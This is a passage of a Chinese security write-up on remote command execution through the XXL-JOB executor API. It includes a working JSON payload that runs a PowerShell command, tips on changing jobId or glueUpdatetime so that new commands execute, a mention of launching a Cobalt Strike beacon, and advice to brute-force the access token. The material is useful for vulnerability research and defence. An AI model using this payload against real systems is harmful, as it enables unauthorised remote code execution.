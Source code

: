 
这个触发任务成功引起了我的注意。根据文档 API 构造参数试试看，果真执行命令成功。

  

**0x04**

****验证漏洞****

  

**Payload：**

```
{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER\_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE\_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

需要注意 "glueUpdatetime"，看官方怎么描述的

![](https://mmbiz.qpic.cn/mmbiz_png/gqALwUU9cicxYP2FC2tKfUDQr2kaJGeztbRwkyF5wKXGzRFehvxLTjxtWibLCTUxFXkmibKtxQe7CqNfiaAXNuzo8w/640?wx_fmt=png)

意思就是如果 GLUE 时间未改变的话，将不读取参数中命令，而是执行上次创建的任务。

**判断任务逻辑：**

![](https://mmbiz.qpic.cn/mmbiz_png/gqALwUU9cicxYP2FC2tKfUDQr2kaJGezt4S20eGFJNIVFbRCgdO6jloboiaZSHGd0nwic3wLJQpVqiatrHibF5SdwUw/640?wx_fmt=png)

所以每次执行不同任务则需要修改 jobId 或者 glueUpdatetime

![](https://mmbiz.qpic.cn/mmbiz_png/gqALwUU9cicxYP2FC2tKfUDQr2kaJGeztqcX6GTysaupBknYU35yheyepibIRicgJDEx7tyKglZuhmqckIyYhLVsg/640?wx_fmt=png)

包括上线 cs 命令都没问题

![](https://mmbiz.qpic.cn/mmbiz_png/gqALwUU9cicxYP2FC2tKfUDQr2kaJGezte5MYibPiaA2ZQfFjMpLYUS3sLoa3Fywn2cgSjYvSg5J9Sl8HibJYwibQqg/640?wx_fmt=png)

  

**0x05**

**扩展利用方式**

  

如果对方开发人员设置了 “XXL-JOB-ACCESS-TOKEN“，我们也是可以通过爆破去执行命令。  

![](https://mmbiz.qpic.cn/mmbiz_png/gqALwUU9cicxYP2FC2tKfUDQr2kaJGezticyBAlq0FiaRRQVHN2Mrh0hlxxGGIFLt34jpyO5G7svA7QmRnIPPVTdg/640?wx_fmt=png)

**Token 错误返回包**
